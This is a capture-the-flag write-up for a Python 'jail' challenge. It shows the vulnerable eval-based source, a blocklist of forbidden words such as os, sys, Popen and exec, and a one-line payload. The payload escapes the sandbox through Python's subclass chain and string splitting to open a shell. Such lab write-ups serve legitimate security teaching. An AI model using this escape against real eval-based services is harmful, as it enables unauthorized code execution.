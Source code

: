 # prison

other quasar collabs with super penguin 612

## challenge

Eth007.py
```
def main():
    try:
        caught = False
        cmd = input("> ")
        for x in cmd:
            if not(33<=ord(x) and ord(x)<=126) or ord(x)==43:
                caught = True
        with open("ContrabandWords.txt","r") as c:
            Contrabands = c.readlines()
        for Contraband in Contrabands:
            if Contraband.rstrip("\n") in cmd.lower():
                caught = True
        if (caught==False):
            try:
                print(eval(cmd,{"__builtins__": None}))
            except:
                pass
        else:
            print("And you were caught...")
        Continue = input("Try again [y/n]: ")
        if Continue == "y":
            main()
        else:
            print("Bye")
    except:
        print("Huh you broke my code")
        main()
print("Welcome to your jail cell")
main()
```

ContrabandWords.txt
```
cat
grep
nano
input
sys
os
int
print
open
read
write
while
echo
execfile
file
dir
dict
import
+
join
f"
{
flag
%
;
Popen
call
eval
run
exec
```

## intended solution

`().__class__.__base__.__subclasses__()[-4].__init__.__globals__["sy""stem"]("s""h")`

the idea here is that the strings can be concat'd by simply putting them next to each other.

alternatively, you could just use `__add__` though...
